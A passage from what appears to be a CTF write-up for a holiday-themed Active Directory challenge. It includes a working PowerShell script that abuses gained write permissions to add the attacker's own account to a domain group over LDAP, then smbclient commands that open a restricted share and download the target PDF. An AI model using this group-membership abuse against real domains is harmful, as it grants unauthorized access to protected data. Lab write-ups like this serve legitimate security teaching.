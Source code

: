 ```
PropagationFlags      : None
```
It worked! Now that we have the permission to, we can add our user to that group, using the third script.
```Powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "YOUR_USERNAME_HERE"
$password = "YOUR_PASSWORD_HERE"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

We can now access the **research_dep** share on **10.128.3.30**
```{warning}
It could take up to five minutes for the changes to propagate.
```

## Santa PDF finally!

```
$smbclient \\\\10.128.3.30\\research_dep -U ELFU.local\\iqulelyrfv
==> Enter Password

smb: \> dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Thu Dec 30 08:01:24 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

                41089256 blocks of size 1024. 34704268 blocks available

smb: \> get SantaSecretToAWonderfulHolidaySeason.pdf
getting file \SantaSecretToAWonderfulHolidaySeason.pdf of size 173932 as SantaSecretToAWonderfulHolidaySeason.pdf
smb: \> exit
```
We have downloaded the file that we probably needed to access, **SantaSecretToAWonderfulHolidaySeason.pdf**   
Transfer it to our computer, open it and the word requested by the challenge is **Kindness**.  
  
Done :)

